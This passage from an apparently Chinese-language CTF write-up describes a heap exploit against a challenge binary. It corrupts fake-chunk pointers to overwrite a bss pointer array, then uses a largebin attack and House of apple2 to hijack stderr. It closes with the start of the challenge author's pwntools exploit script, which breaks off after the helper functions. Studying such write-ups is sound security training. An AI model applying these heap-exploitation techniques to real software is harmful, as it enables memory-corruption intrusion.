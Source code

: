 再加上前面把 fakechunk 的 fd、bk 指针改成了储存堆块指针的 bss 段地址，此时再 edit(0) 便可对 bss 段进行修改

[![](assets/1702521085-bc0913d5691f850ffeadaad5457c65e3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231205231046-77504832-9380-1.png)

在更改了大小后就可以进行堆溢出了

然后就是 largebin attack 走 House of apple2 即可

关于 House of apple 的调用链这里不详细说明

想了解详细可以看笔者之前写的文章：[新型 IO 利用方法学习——House of apple2 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/13092)

劫持的是 stderr 结构体

[![](assets/1702521085-09c9ff28ff0261662d831df227536668.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231205231000-5c11aaf2-9380-1.png)

放下出题人的 exp：

```plain
from pwn import *
import sys
context.log_level='debug'
context.arch='amd64'
libc = ELF('./libc.so.6')
flag = 1

if flag:
    p = remote('0.0.0.0', 9999)
else:
    p = process("./challenge")
sa = lambda s,n : p.sendafter(s,n)
sla = lambda s,n : p.sendlineafter(s,n)
sl = lambda s : p.sendline(s)
sd = lambda s : p.send(s)
rc = lambda n : p.recv(n)
ru = lambda s : p.recvuntil(s)
ti = lambda : p.interactive()
leak = lambda name,addr :log.success(name+"--->"+hex(addr))

def add(index,size,content):
    sla(b': ',b'1')
    sla(b': ',str(index).encode())
    sla(b': ',str(size).encode())
    sa(b': ',content)

def delete(index):
    sla(b': ',b'2')
```
